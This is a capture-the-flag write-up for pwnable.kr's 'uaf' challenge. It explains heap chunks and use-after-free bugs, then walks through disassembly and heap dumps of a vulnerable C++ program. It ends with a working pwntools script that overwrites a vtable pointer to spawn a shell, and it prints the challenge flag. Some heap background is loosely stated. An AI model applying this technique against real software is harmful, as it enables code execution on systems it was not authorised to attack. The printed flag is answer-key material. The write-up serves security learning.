 # uaf

## Description

uaf - 8 pt

> Mommy, what is Use After Free bug? <br> <br>
> ssh uaf@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### The heap

The heap is a region of memory that is dynamically allocated and deallocated by the program. We can allocate memory on the heap by calling `malloc` and free it by calling `free`. Note that the memory allocated by malloc is always aligned to 8 bytes.

The memory in the heap is stored in chunks. Each chunk has a header, that contains information about the chunk (such as it's size), and the data itself. for example, here is a chunk of size 0x20:

```
0x614ed4:       0x00000000      0x00000021      0x00000000      0x00000614
0x614ee4:       0x00000000      0x2b63ba16      0x4f1d11e4      0x00614ec8
```

The first 2 words are the header, and the rest is the data. It's important to note that the last two bits of the size is have special meaning. Most importantly, the least signifcant bit is used to indicate whether the last chunk is free or not. If it's 1, it's free, if it's 0, it's allocated. 

When a chunk is freed, it's saved in a (dounle) linked list. When we allocate memory on the heap, the allocator will search that list for a chunk that is big enough to hold the requested size. If it finds one, it will remove it from the list and return it to the user. If it doesn't find one, it will allocate a new chunk from the end of the heap.

Also, while not relevant to this challenge, it's important to note that when a chunk is freed, the heap manager will check if the previous chunk is free. If it is, it will merge them into one chunk. This is called coalescing.

#### Use After Free

Use After Free (UAF) is a vulnerability that occurs when we use a pointer to a chunk after it has been freed. 

A bug like this can be used in many ways. For example, if we allocate a new chunk of the same size as the freed chunk, it will be allocated in the same place as the freed chunk. Thus, we'll be able to control the data that the pointer points to, and possibly take control of the program.

### Exploit

Let's check out the source code:

```c
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

The program creates a `Man` and a `Woman` object, and then gives us a menu to choose from. The first option calls the `introduce` function of both objects. The second option allocates a chunk of memory of a size we choose, and reads data from a file into it. The third option frees both objects.

As the name of the challenge suggest, we'll need to use a UAF bug to get the flag. Let's take a look at the objects in the heap. First, we're going to need to find their addresses. Here are the relevant parts of the disassembly of the `main` function:

```asm
0000000000400ec4 <main>:
  ...
  400f13:	e8 4c 03 00 00       	call   401264 <_ZN3ManC1ESsi>
  ...
  400f71:	e8 92 03 00 00       	call   401308 <_ZN5WomanC1ESsi>
  ...
```

Using gdb to break at the calls to the constructors, we get that the `Man` object's **chunk** starts at `0x614ed4` and the `Woman` object's **chunk** starts at `0x614f24`. Knowing that, we can take a look at the heap:

```
0x614ed4:       0x00000000      0x00000021      0x00000000      0x00401570
0x614ee4:       0x00000000      0x00000019      0x00000000      0x00614ec8

... 

0x614f24:       0x00000000      0x00000021      0x00000000      0x00401550
0x614f34:       0x00000000      0x00000015      0x00000000      0x00614f18
```

Since the classes are fairly similar, let's focus on the `Man` object. The first 2 words of the chunk are the header. Then, we have the `vtable` pointer, which points to the `vtable` of the `Man` class. After that we have the `age` and `name` fields. The `name` field is a pointer to a string, which is stored in the next chunk.

With some debugging, we can figure out that whenever we ask for the `1` option, the program calls `introduce` by using the `vtable` pointers to go to the function that's in offset `0x8` from the start of the `vtable`. 

```asm
  400fcd:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fd1:	48 8b 00             	mov    (%rax),%rax
  400fd4:	48 83 c0 08          	add    $0x8,%rax
  400fd8:	48 8b 10             	mov    (%rax),%rdx
  400fdb:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fdf:	48 89 c7             	mov    %rax,%rdi
  400fe2:	ff d2                	call   *%rdx
```
Also, it appears that the first address of the `vtable` is the address of the `give_shell`, and unsurprisingly, the address at offset `0x8` is the address of the `introduce` function. 

```
0x401570 <_ZTV3Man+16>: 0x0040117a

0x40117a <_ZN5Human10give_shellEv>:     0xe5894855
```

```
0x401578 <_ZTV3Man+24>: 0x004012d2

0x4012d2 <_ZN3Man9introduceEv>: 0xe5894855
```

So, if we manage to change the `vtable` pointer to point `0x8` bytes back, the offset `0x8` will make it point to the `give_shell` function.

It seems that the `Man` and `Woman` objects are each `0x18` bytes long. So, if we'll use the `3`rd option to free them, and then allocate 2 chunks of `0x18` bytes, those chunks will be allocated in the same place as the `Man` and `Woman` objects.

Since the `2`nd option not only gives us the choice of how many bytes to allocate, but also the choice of which file to read into the allocated memory, we can use it to allocate 2 `0x18` byte chunks, that look like this:

```
0x00000000      0x00000021      0x00000000      0x00401568
0x00000000      0x00000000      0x00000000      0x00000000
```

And then, when we choose the `1`st option, the program will dereference the function pointer `0x00401568 + 0x8` which points to the `give_shell` function. 

```python
from pwn import *

ssh = ssh(host='pwnable.kr', port=2222, user='uaf', password='guest')

ssh.mkdir('/tmp/a')
ssh.touch('/tmp/a/exploit')
ssh.upload_data('\x68\x15\x40\x00' + '\x00'*4*3, '/tmp/a/exploit')

p = ssh.process(['./uaf', '24', '/tmp/a/exploit'])
p.sendline(b'3\n2\n2\n1')

p.sendline(b'cat flag')
p.interactive()
```

```
yay_f1ag_aft3r_pwning
```

